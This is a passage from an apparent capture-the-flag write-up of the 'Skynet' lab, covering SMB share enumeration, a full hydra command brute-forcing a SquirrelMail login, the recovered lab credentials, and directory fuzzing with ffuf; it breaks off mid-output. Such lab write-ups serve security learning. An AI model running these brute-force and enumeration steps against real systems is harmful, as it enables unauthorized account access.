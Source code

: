 ![squirrelmail](https://user-images.githubusercontent.com/112681383/205478514-b53e6a34-79a6-4b6b-a909-50f345acc239.png)

A `searchsploit` for squirrelmail 1.4 search turns up a few interesting results for Local File Inclusion and Remote Code Execution, but both of these look like I need log in creds.

![searchsploit-squirrelmail](https://user-images.githubusercontent.com/112681383/205478588-7aa3cf61-1c86-4532-9261-a3aa3b8d4362.png)

Time to move on to SMB.

## SMB
Running `smbmap` reveals that the share `anonymous` allows anonymous log in and read access. In the share are 4 files, attention.txt, log1.txt, log2.txt, and log3.txt. `Attention.txt` contains a message about a malfunction causing passwords to change, and that employees must change their passwords. It also contains a possible username: `Miles Dyson`.` Log1.txt` contains what looks like a wordlist of passwords. Log2.txt and Log3.txt are both empty 

![smbmap](https://user-images.githubusercontent.com/112681383/205478630-923ec530-2273-4ec4-9855-6e32d98a23db.png)

Using this username and password list I decide to bruteforce `squirrelmail`. The wordlist is short enough that I could manually copy and paste each password, but it's more fun to use hydra. I create a short username wordlist containing a few variations of Miles Dyson, "milesdyson, mdyson, miles, etc.". I use burp to grab the url and POST data for the login, and use the incorrect password error from the site as the fail state. After a little while, hydra returns the password and username: `milesdyson:cyborg007haloterminator`
```bash
hydra -L usernames.txt -P log1.txt -u $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect"
<... SNIP ..>
[80][http-post-form] host: 10.10.133.117   login: m*********   password: c****************
```
In the inbox are 3 emails, 2 contain what I think are Terminator references, but one contains an SMB password. 

Now that we have creds for Squirrelmail, we could try some of those exploits we saw before. Spoiler alert: they didn't work. Perhaps if I had finagled it some more I could have got it to work. I ran the bash script, and then tried to manually do what the bash script was doing. I wasn't successful with either of these, and decided to come back to it if I hit a dead end in the future. Time to hop back into SMB with our new creds.

I can now access the "milesdyson" smb share. In it is a folder caled "notes", in that is a file called "important.txt". In that file is a line `Add features to beta CMS /45kra24zxs28v3yd`. This looks like a could be a directory that's been "hidden by obscurity."

## Directory /45kra24zxs28v3yd
It is indeed! It's Miles' personal page. Nothing interesting on this page so I decide to fuzz it. This turns up a page called "administrator"
```bash
┌──(ķ̤̜͓̩̓͑̂̅͝ali̻͙̝̫͜㉿K̺̬̜̩͆̋̕͟͠͡al̠̟̘̹̦̀̉͂̂͐ĭ͍̼̭̐̾̌͜͜͡)-[~/thm/Rooms/Skynet]
└─[🟊] ffuf -u http://$IP/45kra24zxs28v3yd -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt:FUZZ -e .html,.php,.txt

        /'___\  /'___\           /''___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.2.177/45kra24zxs28v3yd/FUZZ
```